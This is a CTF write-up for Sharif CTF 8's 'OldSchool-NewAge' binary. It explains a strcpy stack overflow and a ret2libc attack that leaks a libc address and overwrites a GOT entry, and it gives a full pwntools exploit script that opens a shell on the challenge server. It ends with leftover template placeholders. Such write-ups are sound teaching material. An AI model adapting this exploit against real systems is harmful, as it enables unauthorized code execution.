 # __Sharif CTF 8__ 
## _OldSchool-NewAge_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Reverse | 75 | merrychap

**Description:** 

> It all started with a leak bang
nc ctf.sharif.edu 4801
Alternative: nc 213.233.161.38 4801

## Solution
### Binary recon
We are given [vuln4](./vuln4) binary and [libc.so.6](./libc.so.6). Let's take a look into the binary. After some reversing we get the next code:
```c
int copy_it(char *s1)
{
  char s2;

  strcpy(&s2, s1);
  return 0;
}

int main(int argc, const char **argv, const char **envp) {
  char s;

  puts("This time it is randomized...");
  puts("You should find puts yourself");
  fflush(stdout);
  fgets(&s, 200, stdin);
  copy_it(&s);
  puts("done!");
  return 0;
}
```
That's all binary. The most interesting function here is ```copy_it``` function. If we see this function in assembly and understand how much stack is allocated for local variables, then we will understand what to do next. 

<p align="center">
  <img src="screens/copy_it_asm.png">
</p>


### Finding the vulnerability
```asm
sub     esp, 18h
sub     esp, 8
```
Taking into account that we input 200 characters in ```s1```, then it's obvious that here is an easy buffer overflow. Alright, we can overflow ```RET``` of ```copy_it``` function, but what should we do next? How do we get the shell? 

### Exploitation of the binary
The idea is to make **```ret2libc```** attack. To make this, we have to leak a libc address. If we change the flow of the binary after overwriting ```RET``` into first ```puts``` function, making address of GOT as an argument for this ```puts```, then we leak a libc address. Pretty.

This overwriting gives us a chance to input characters one more time. Knowing libc address and the fact that argument for ```fgets``` lays right before ```RET``` address of ```copy_it``` on a stack (just debug and you will see it), then we can write into GOT entry.

Let's write address of calculated ```system``` into ```puts``` entry in GOT, then the last ```puts``` will give us the shell.


### Exploit
You can look at [exploit.py](./exploit.py) or look at just code below:

```python
import struct

from pwn import *


def to_n(addr):
    return struct.unpack('I', addr)[0]


def to_addr(n):
    return struct.pack('I', n)


def main():
    libc = ELF('./libc.so.6')
    
    binsh = to_addr(list(libc.search('/bin/sh'))[0])

    fgets      = '\x3e\x85\x04\x08'
    puts_addr  = '\x03\x85\x04\x08'
    puts_got   = '\x74\x98\x04\x08'
    fflush_got = '\x68\x98\x04\x08'

    pc = remote('ctf.sharif.edu', 4801)

    # puts_got here is argument for the next fgets.
    pc.sendline('AAAAAAAAAAAAAAAAAA' + puts_got + puts_addr + fflush_got)

    print(repr(pc.recvline()))
    print(repr(pc.recvline()))
    
    libc_base = to_n(pc.recvline()[:4]) - libc.symbols['fflush']
    binsh     = to_addr(to_n(binsh) + libc_base)
    system    = to_addr(libc_base + libc.symbols['system'])
    
    print('System address:  ' + hex(to_n(system)))
    print('/bin/sh address: ' + hex(to_n(binsh)))

    # BBBB is RET address of system and binsh is the first argument
    pc.sendline('AAAAAAAAAAAAAAAAAAAAAA' + system + 'BBBB' + binsh)

    pc.interactive()

if __name__ == '__main__':
    main()
```

### And this is subtitle
Text under the subtitle

> Flag here